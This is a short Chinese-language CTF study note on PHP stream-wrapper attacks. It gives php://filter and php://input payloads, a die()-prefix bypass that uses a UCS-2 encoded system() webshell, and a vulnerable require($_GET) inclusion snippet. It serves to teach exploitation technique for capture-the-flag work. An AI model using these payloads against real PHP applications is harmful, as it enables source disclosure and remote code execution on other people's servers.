   ```php
  # 直接读，PHP 代码会被解析
  php://filter/resource=flag.php
  # 针对 PHP 文件（常用）
  php://filter/read=convert.base64-encode/resource=flag.php
  # 其他字符编码
  php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=1.php
  # Rot13
  php://filter/string.rot13/resource=1.php
  # 
  php://input
  [POST DATA部分]
  <?php phpinfo(); ?>
  ```
  
- **示例**

  **convert**

  ```php
  <?php
  highlight_file(__FILE__);
  error_reporting(0);
  function filter($x){
      if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
          die('too young too simple sometimes naive!');
      }
  }
  $file=$_GET['file'];
  $contents=$_POST['contents'];
  filter($file);
  file_put_contents($file, "<?php die();?>".$contents);
  ```
  把 Base64 和 Rot13 过滤了，根据 [PHP 支持的字符编码](https://www.php.net/manual/zh/mbstring.supported-encodings.php)，发现 PHP 支持的字符编码还是挺多的，我们这里随便选择一个进行使用

  ```
  GET: ?file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=1.php
  POST: contents=?<hp pystsme"(ac tlf"*;)
  ```

  关于代码生成，注意 `ucs-2` 编码的字符串位数一定要是偶数，否则会报错，`ucs-4` 编码的字符串位数一定要是 4 的倍数，否则会报错

  ```php
  <?php 
  echo iconv("UCS-2LE","UCS-2BE",'<?php system("cat fl*");');
  // ?<hp pystsme"(ac tlf"*;)
  ```
  **base64**

  ```php
  # index.php
  <?php
    highlight_file(__FILE__);
    require($_GET['filename']);
  ?>
  ```
  ---
  